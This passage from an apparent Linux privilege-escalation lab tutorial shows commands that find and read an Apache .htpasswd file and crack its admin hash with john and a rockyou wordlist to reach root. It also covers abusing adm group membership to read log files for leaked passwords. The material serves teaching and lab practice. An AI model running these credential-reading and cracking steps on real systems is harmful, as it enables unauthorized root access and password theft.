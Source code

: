 ```shell
find / -group root -perm -g=r -type f 2>/dev/null | grep htpasswd | xargs ls -l
```

We can see that we can read the file:

```shell
user@pwn:~$ cat /etc/apache2/.htpasswd
admin:$apr1$xxxxxxxxxxxxxxxxxxxxxxxx
```

Go to your adversary host, we must single quotes (') when using echo to avoid character interpretation:

```shell
echo 'admin:$apr1$xxxxxxxxxxxxxxxxxxx' > hash.txt
```

Then we can escalate privileges by cracking this hash:

```shell
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

We could then switch to the root user:

```shell
su root
```

Remove the current user from the root group:

```shell
sudo gpasswd -d user root
```

Reboot the system to apply the change:

```shell
reboot
```

# Privilege Escalation via Adm Group

The `adm` group allows us to read log files.

Wel'll add the current user to the adm group:

```shell
sudo usermod -aG adm user && reboot
```

Members of the group adm typically have access to log files placed in `/var/log/`. Let us look at which files we may read and write:

```shell
find / -group adm 2>/dev/null | grep -v 'proc' | xargs ls -l 2>/dev/null
```

While not directly exploitable, logs can be leveraged to leak sensitive information such as user actions, vulnerable apps, and potentially hidden cron processes. Therefore, we will design a scenario in which we can find a password recorded in a log.
